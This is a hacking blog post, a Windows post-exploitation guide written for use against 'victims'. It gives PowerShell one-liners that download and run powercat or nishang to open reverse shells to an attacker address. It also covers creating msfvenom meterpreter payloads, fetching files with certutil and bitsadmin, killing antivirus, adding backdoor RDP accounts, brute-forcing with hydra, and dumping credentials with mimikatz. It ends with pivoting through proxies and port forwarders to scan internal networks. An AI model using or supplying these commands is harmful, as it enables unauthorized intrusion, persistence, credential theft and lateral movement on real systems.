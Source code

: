```yaml
---
title: After Getting The Shell
date: 2018-11-02 11:55:13
categories: Hacking
tags: [PowerShell, Metasploit]
description: It seems that it's getting more and more popular that everyone would like to scan the whole intranet when he takes down one of the other people's machines. So what to do next after getting the shell of a windows system? Some ideas about that. 
---
```


Here gives two methods to trigger a windows reverse shell with PowerShell, remember to bypass the PowerShell security policy before you execute PowerShell command. (https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

For attacker:
```shell
nc -lvp 6666
```

For target:
```shell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c x.x.x.x -p 6666 -e cmd
```
```shell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress x.x.x.x -port 6666
```

Sometimes the protection system on the server will block PowerShell from downloading anything, there are two tools to help you:
```shell
bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip
```
```shell
certutil -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

Most of the time you will face three situations:

* ### You don't have administrator privilege, but there is no protection system.
If you're lucky enough, there's no anti-virus software in the system, you can trigger a reverse Metasploit shell in any method you like:
In an easy way:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe > a.exe
```
All you need to do is uploading the payload and execute it. When it comes to the question of how to upload the payload, the answer is that you must forward your local port to the public network with the help of FRP(https://github.com/fatedier/frp) which is a powerful tool, and you must have a VPS to achieve that. Even if you don't have a VPS, you can use ngrok to make it work.

* ### There is protection system in the server, but you have administrator privilege.
If you're not so lucky, maybe you should find some methods such as veil-evasion to obfuscate your payload. In worse situation, your payload which has been obfuscated was deleted by the antivirus as well. you'd better consider killing the process of the antivirus.

Sometimes it's not easy to kill the process of antivirus, you can just log into the system by the remote desktop protocol. The first step is to add a new user to the system:

```shell
net user Name Pass /add
```
Then you should add this user to the allowed rdp accounts from the commandline:

```shell
net localgroup "Remote Desktop Users" domain\user /add
```

If you want to add a non-domain user, it's easier:

```shell
net localgroup "Remote Desktop Users" user /add
```
But you cannot do crazy things with this account, but you can identify which protection system the server use and shutdown it or bypass it. It's not done yet if you want to execute some high-privilege command, privilege escalation could be taken into consideration.

Hydra is a powerful tool if you have a powerful wordlist:
```shell
hydra x.x.x.x rdp -L users.txt -P wordlist.txt -v
```
Mimikatz is also a good choice to dump the username and password from memory of the server. But most of the time mimikatz will be killed by the protection system.

* ### You don't have the administrator privilege, and the server has a protection system.

Shutdown your computer and go to sleep unless you have some 0day vulnerabilities.

---

There are some ways to help you to go deep and you can treat your victim as a pivot to find out more vulnerable hosts within the intranet.

Firstly try to add the routing rules of the target to your meterpreter shell. An msf built-in module "autoroute" and is convenient. (https://www.offensive-security.com/metasploit-unleashed/proxytunnels/)

![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-1.png)

```shell
meterpreter > run post/multi/manage/autoroute
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-2.png)

You can enumerate hosts by performing an ARP scan:

```shell
meterpreter > run post/windows/gather/arp_scanner rhosts=192.168.5.1/24
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-3.png)

Adding routing rule is not always working well, you can try the socks4a module in meterpreter:

```shell
use anxiliary/server/socks4a
set srvport 1080
run
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-4.png)

If it's Linux in your local machine, you can use proxychains to set the socks5 proxy.
Getting proxychains installed:
```shell
apt install proxychains-ng 
```
Add the following content into the /etc/proxychains.conf file:
```shell
socks4 127.0.0.1 1080
```
Then you can use socks proxy to scan the victim's intranet:
```shell
proxychains4 nmap -sT -Pn -open 192.168.5.0/24
```
I have tried so many times to find out all the machines in the victim's intranet but I was usually failed. It just works for few times and the process is too slow. Maybe nmap is the reason for this problem, it works well when I use proxychains to get information from other hosts within the same intranet.

Or you can use EarthWorm(http://rootkiter.com/EarthWorm/) to forward the victim machine's port to your VPS and use proxy
chains or proxifier in your local machine:
For your VPS:
```shell
./ew -s rcsocks -l 1080 -e 1024
```
The command above means your VPS listens the port 1080, 1024  and waits for attacker connect to the port 1080, the victi
m connects to the port 1024.

For target:
```shell
ew.exe -s rssocks -d x.x.x.x -e 1024
```
The argument -d is the IP address of your VPS.

Add the following content into the /etc/proxychains.conf file:
```shell
socks5 x.x.x.x 1080
```
Use proxychains to scan rest of the hosts:
```shell
proxychains4 nmap -sT -Pn -open 192.168.5.0/24
```

If you need ports forwarding, it's also available in meterpreter: (https://www.offensive-security.com/metasploit-unleashed/portfwd/)
```shell
meterpreter > portfwd add –l 3389 –p 3389 –r 192.168.5.100
```
Another popular tool is lcx.exe:
For attacker:
```shell
lcx -listen 2222 3333
```
For target:
```shell
lcx -slave x.x.x.x 2222 127.0.0.1 3389
```
The IP x.x.x.x is the address of your public VPS. Finally execute **_mstsc x.x.x.x:3333_** to connect to the remote desktop of the target.

There are many other useful tools except for the tools I mentioned above, such as netcat, ncat and ssf. You can make a choice among them as you like.